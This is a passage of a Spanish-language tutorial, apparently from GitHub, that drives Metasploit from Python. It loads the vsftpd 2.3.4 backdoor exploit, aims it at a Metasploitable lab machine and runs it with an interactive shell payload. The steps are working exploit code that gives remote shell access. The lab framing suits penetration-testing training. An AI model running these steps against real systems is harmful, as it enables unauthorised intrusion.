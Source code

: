 ✅ Si no da error, estás conectado.

---

### 🎯 Paso 4: Cargar un exploit

Vamos a usar el famoso exploit:

```
unix/ftp/vsftpd_234_backdoor
```

```python
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
```

---

### 🔧 Paso 5: Ver y configurar opciones del exploit

```python
print("Opciones del exploit:")
for option, info in exploit.options.items():
    print(f"- {option}: {info['desc']} (Requerido: {info['required']})")
```

#### Configurar opciones necesarias:

```python
exploit['RHOSTS'] = '192.168.56.102'  # IP de tu víctima Metasploitable
exploit['RPORT'] = 21                # Puerto FTP vulnerable
```

---

### 🧬 Paso 6: Elegir un payload compatible

```python
print("Payloads compatibles:")
for p in exploit.compatible_payloads:
    print(f"- {p}")
```

Seleccionamos uno:

```python
payload = client.modules.use('payload', 'cmd/unix/interact')
```

> Este payload simplemente nos da una shell interactiva en Unix si el exploit funciona.

---

### 🧪 Paso 7: Ejecutar el exploit

```python
print("[*] Ejecutando el exploit...")
job = exploit.execute(payload=payload)
```

---